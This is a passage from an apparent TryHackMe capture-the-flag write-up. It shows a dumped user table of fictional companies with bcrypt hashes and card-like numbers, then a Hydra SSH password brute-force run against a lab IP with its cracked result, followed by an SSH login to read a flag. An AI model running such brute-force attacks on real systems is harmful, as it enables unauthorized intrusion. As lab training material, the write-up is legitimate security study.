 ```
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```

We confirm user tables , we can got first flag.
- [x] flag2

Now, we need into the target machine, I think we can use ssh brute force, and user can try user mandrews(flag1) and server-admin.  

`hydra -l server-admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.68.32`

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-11-22 06:44:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.68.32:22/
[22][ssh] host: 10.10.68.32   login: server-admin   password: inuyasha
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2022-11-22 06:45:43
```

we can use ssh to login, and we got flag2.
`ssh server-admin@10.10.68.32`  
```
Last login: Wed Aug 12 20:09:36 2020 from 192.168.86.65
server-admin@duckyinc:~$ ls
flag2.txt
server-admin@duckyinc:~$ cat flag2.txt
thm{4lm0st_th3re}
server-admin@duckyinc:~$
```
- [x] flag3
usualy, finaly flay will need to root privilege, so we can find to privilege escalation method.  

